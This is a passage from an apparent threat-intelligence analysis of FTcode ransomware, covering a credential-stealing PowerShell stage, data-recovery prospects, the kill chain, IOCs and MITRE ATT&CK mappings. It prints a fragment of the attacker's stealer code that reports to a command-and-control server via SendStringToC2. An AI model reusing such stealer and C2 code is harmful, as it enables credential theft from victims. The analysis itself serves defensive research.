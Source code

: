```csharp
      elseif(-Not($is86dll) -and -Not($is86)) {$result = $stillerBlock.Invoke();}
      elseif($is86dll -and -Not($is86)) 
      {
        Start-Job -RunAs32 -ScriptBlock $stillerBlock | Out-Null
        $result = (Get-Job | Wait-Job | Receive-Job)
      }
      elseif(-Not($is86dll) -and $is86) {$result = $stillerBlock.Invoke();}          
    }
    return $result;
  }
  catch{ SendStringToC2 "crederror=ERR:chooseArch: $($_.Exception.Message)";}
}
SendStringToC2 "crederror=start chooseArch";

main

```

<h6>Unfortunately, this group can let several hours or days before drops the ransomware payload and by the fact of detection and blockage of domains, it's impossible to study the last part the ransomware ftcode but we can invalidate that it must reuse the IV defined in the "db" file (random GUID defines) to encrypt the data with AES so the secret must be in the ransomware code. That makes possible recovers the data if ransomware script and db file can be available or if this possible to have the GUID by interception of the frame (send GUID on C2) and can be edited for getting IV too.</h6>

<h6>Compared to the analysis in early January 2020, the Threat Actor added the password dump for IE and Outlook at their script. The group have a low level on the professional approach of a cybercriminal group and coding skills but the fact that a part of the encryption process are in memory and are flush make it more deadly in this approach.</h6>

<h2> Cyber kill chain <a name="Cyber-kill-chain"></a></h2>
<h6>This process graph represent the cyber kill chain used by the attacker.</h6>
<center>
  <img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Unknown/2020-06-22/Pictures/cyberkill.png">
</center>

<h2> Indicators Of Compromise (IOC) <a name="IOC"></a></h2>
<h6> The IOC can be exported in <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Unknown/2020-06-22/JSON/IOC-FTcode-2020-06-22.json">JSON</a> and <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Unknown/2020-06-22/CSV/IOC-FTcode-2020-06-22.csv">CSV</a></h6>

<h2> References MITRE ATT&CK Matrix <a name="Ref-MITRE-ATTACK"></a></h2>

<center>

Enterprise tactics|Technics used|Ref URL|
| :---------------: |:-------------| :------------- |
|Execution|Scheduled Task<br>Scripting<br>PowerShell<br>Execution through API<br>Execution through Module Load|https://attack.mitre.org/techniques/T1053<br>https://attack.mitre.org/techniques/T1064<br>https://attack.mitre.org/techniques/T1086<br>https://attack.mitre.org/techniques/T1106<br>https://attack.mitre.org/techniques/T1129|
|Persistence|Scheduled Task|https://attack.mitre.org/techniques/T1053|
|Privilege Escalation|Scheduled Task|https://attack.mitre.org/techniques/T1053|
|Defense Evasion|Scripting<br>Compile After Delivery|https://attack.mitre.org/techniques/T1064<br>https://attack.mitre.org/techniques/T1500|
|Credential Access|Credentials in Files|https://attack.mitre.org/techniques/T1081|
